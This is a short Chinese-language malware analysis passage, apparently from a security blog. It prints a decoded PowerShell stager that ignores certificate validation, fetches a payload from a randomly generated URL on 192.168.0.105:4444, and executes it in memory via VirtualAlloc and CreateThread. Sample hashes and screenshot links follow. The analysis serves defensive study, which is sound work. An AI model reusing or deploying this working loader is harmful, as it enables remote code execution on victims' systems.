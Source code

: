 解码后的内容为:

$q = @"

[DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpP

arameter, uint dwCreationFlags, IntPtr lpThreadId);

"@

try`{`$d = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".ToCharArray()

function c($v)`{` return (([int[]] $v.ToCharArray() | Measure-Object -Sum).Sum % 0x100 -eq 92)`}`

function t `{`$f = "";1..3|foreach-object`{`$f+= $d[(get-random -maximum $d.Length)]`}`;return $f;`}`

function e `{` process `{`[array]$x = $x + $_`}`; end `{`$x | sort-object `{`(new-object Random).next()`}``}``}`

function g`{` for ($i=0;$i -lt 64;$i++)`{`$h = t;$k = $d | e;  foreach ($l in $k)`{`$s = $h + $l; if (c($s)) `{` return $s `}``}``}`return "9vXU";`}`

[Net.ServicePointManager]::ServerCertificateValidationCallback = `{`$true`}`;$m = New-Object System.Net.WebClient;

$m.Headers.Add("user-agent", "Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)");$n = g; [Byte[]] $p = $m.DownloadData("https://192.168.0.105:4444/$n

" )

$o = Add-Type -memberDefinition $q -Name "Win32" -namespace Win32Functions -passthru

$x=$o::VirtualAlloc(0,$p.Length,0x3000,0x40);[System.Runtime.InteropServices.Marshal]::Copy($p, 0, [IntPtr]($x.ToInt32()), $p.Length)

$o::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400`}`catch`{``}`

脚本的功能是通过g函数随机生成四位的字符,从内网网址下载后加载执行[https://192.168.0.105:4444/xxxx](https://192.168.0.105:4444/xxxx) (其中xxxx为随机四位字符)

这里连接的是192.168.0.105为内网IP,此样本很可能是渗透者进行内网渗透攻击的测试样本。此类样本还有很多:

leae0906f98568c5fb25b2bb32b1dbed7

[![](https://p4.ssl.qhimg.com/t017313fe76f2e8dd26.png)](https://p4.ssl.qhimg.com/t017313fe76f2e8dd26.png)

l1a42671ce3b2701956ba49718c9e118e

[![](https://p1.ssl.qhimg.com/t0126a8391c56008bd1.png)](https://p1.ssl.qhimg.com/t0126a8391c56008bd1.png)

l496ed16e636203fa0eadbcdc182b0e85

[![](https://p4.ssl.qhimg.com/t01f6f9b381b96c6832.png)](https://p4.ssl.qhimg.com/t01f6f9b381b96c6832.png)

